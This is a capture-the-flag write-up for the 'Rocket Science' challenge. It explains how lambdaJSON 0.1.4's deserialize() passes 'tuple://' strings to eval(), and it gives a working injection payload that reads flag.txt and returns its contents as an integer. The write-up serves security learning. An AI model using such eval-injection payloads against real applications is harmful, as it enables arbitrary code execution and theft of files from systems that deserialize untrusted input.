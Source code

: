 ```yaml
---
description: Code injection vulnerability in lambdaJSON
---
```


# Rocket Science

## Description

Welcome to Rocket Science! In this class, we will learn all about rockets. But first, let's revise your numbers!

`nc 20.198.209.142 55020`

_The flag is in the flag format: STC{...}_

**Author: zeyu2001**

{% file src="../../.gitbook/assets/requirements.txt" %}
requirements.txt
{% endfile %}

{% file src="../../.gitbook/assets/rocket_science.py" %}
rocket_science.py
{% endfile %}

## Solution

The requirements file contains only a single dependency.

```
lambdajson == 0.1.4
```

Let's take a look at the part of the source code in which this is used.

```python
elif ipt == '3':
	
		print("Enter saved numbers:")
		
		try:
			numbers = lj.deserialize(input('> '))
			
			if type(numbers) == tuple and all(type(x) == int for x in numbers):
				print(numbers)
				
			else:
				print("Don't you know what numbers are?")
			
		except:
			print("Invalid input!")
```

We can see that `lj.deserialize()` is called directly on the user input.

It's always a good idea to check dependencies for vulnerabilities, so let's go to the [PyPi page](https://pypi.org/project/lambdaJSON/) for lambdaJSON. If version 0.1.4 is vulnerable, then we should expect later versions to issue security fixes. 

On the [release notes](https://pypi.org/project/lambdaJSON/0.1.5/) from version 0.1.5, we find our vulnerability.

![](<../../.gitbook/assets/Screenshot 2021-07-24 at 4.00.39 PM.png>)

Under the "Changes from previous" section:

> Security fix. Using ast.literal_eval as eval.

From the release history, we can find out when this fix was released.

![](<../../.gitbook/assets/Screenshot 2021-07-24 at 4.03.52 PM.png>)

This allows us to find the [GitHub commit](https://github.com/pouya-eghbali/lambdaJSON/commit/0d3bcb8bf3388c90819f0f24c9865bc8d4d8b91e) for this fix.

![](<../../.gitbook/assets/Screenshot 2021-07-24 at 4.05.24 PM.png>)

Great! We have found the source code for the vulnerable version of the package. In the [source code](https://github.com/pouya-eghbali/lambdaJSON/blob/05d8d92916cdb9df20b83265c6ccd38d6b29d52b/lambdaJSON.py), we find that the `restore()` function used by `deserialize()` uses `eval()`!

```python
restore = lambda obj:          (isinstance(obj, str) 
                        and    (lambda x: x.startswith('bytes://') 
                        and    bytes(x[8:], encoding = 'utf8') 
                        or     x.startswith('int://') 
                        and    int(x[6:]) 
                        or     x.startswith('float://') 
                        and    float(x[8:])
                        or     x.startswith('long://') 
                        and    long(x[7:])
                        or     x.startswith('bool://') 
                        and    eval(x[7:]) 
                        or     x.startswith('complex://')
                        and    complex(x[10:])
                        or     x.startswith('tuple://') 
                        and    eval(x[8:]) or x)(obj) 
                        or     isinstance(obj, list) 
                        and    [restore(i) for i in obj] 
                        or     isinstance(obj, dict) 
                        and    {restore(i):restore(obj[i]) for i in obj} 
                        or     obj)

...

deserialize = lambda obj: restore(json.loads(obj))
```

Note that the deserialized output must be a tuple of integers.

```python
if type(numbers) == tuple and all(type(x) == int for x in numbers):
				print(numbers)
```

The vulnerable version of `deserialize()` will strip the starting `tuple://` and `eval()` the rest of the input string.

So, if we use the following payload:

```
"tuple://(int.from_bytes(open('flag.txt').read().encode(), byteorder='big'), 2)"
```

we will get the integer representation of the flag.

![](<../../.gitbook/assets/Screenshot 2021-07-24 at 4.16.35 PM.png>)

The flag is `STC{3v4l_1s_3v1l_00e80002e832f357cf5c05ee114a5cb40e746757}`

```
➜  ~ python3
Python 3.9.5 (default, May  4 2021, 03:36:27)
[Clang 12.0.0 (clang-1200.0.32.29)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> from Crypto.Util.number import long_to_bytes
>>> long_to_bytes(3969309506657081582967368110556498469050796930805813227720771571473136717745745293677237528859886779701434271164439572744813346302117987974410)
b'STC{3v4l_1s_3v1l_00e80002e832f357cf5c05ee114a5cb40e746757}\n'
>>>
```
